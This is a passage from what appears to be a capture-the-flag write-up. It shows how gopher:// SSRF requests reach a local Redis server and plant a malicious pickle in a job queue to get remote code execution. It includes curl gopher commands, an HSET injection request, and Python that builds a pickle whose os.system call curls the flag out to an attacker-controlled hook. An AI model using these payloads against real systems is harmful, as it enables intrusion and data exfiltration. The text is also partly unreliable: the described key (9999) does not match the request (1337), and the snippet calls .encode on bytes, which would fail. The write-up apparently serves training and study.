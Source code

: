 One such protocol is `GOPHER`, and it is known to interact really well with redis.  
Since redis uses a ![text based protocol](https://redis.io/commands/), `GOPHER` is perfect to communicate this raw text.  

Only the first character is truncated in `GOPHER`, otherwise it is just text, which is perfect.  

If we do this request:  
```
curl gopher://localhost:1338/HELLO%20WORLD
```

The received data ends up being:  

![](/images/traptrack-gopher.png)

So we need to add a sacrificial character.  

```bash
curl gopher://localhost:6379/_CONFIG%20GET%0aQUIT
```

With this, we can communicate with redis.  

Now our goal is to place a malicious pickle inside of a `jobs` entry.  
And then have the worker deserialize that data to get RCE.  

To do so, we can use the healthchecks.  
We can do it in two requests.  

- The first request will place the pickle payload inside of the `jobs` hash.
  This payload will be identified with a key that could not be normally reached, such as `9999`.

- Then we can trigger the exploit by placing our key (in this case `9999`), in last position of the `jobsqueue`.
  This will place the payload for the next time the `worker` is checking the queue.
  If all goes well our exploit runs and we get the flag.


Here is the first gopher request:


```
gopher://localhost:6379/_HSET%20jobs%201337%20<base64-pickle-payload>%0aQUIT
```

The pickle payload can be generated with this snippet:

```python
import base64
import pickle

class Ted():
    # No one likes ted..
    def __reduce__(self):
        return __import__('os').system, ("curl https://<your-hook>/$(/readflag|base64 -w0)",)

if __name__ == "__main__":
	t = Ted()
	print(base64.b64encode(pickle.dumps(t)).encode('utf-8'))
```
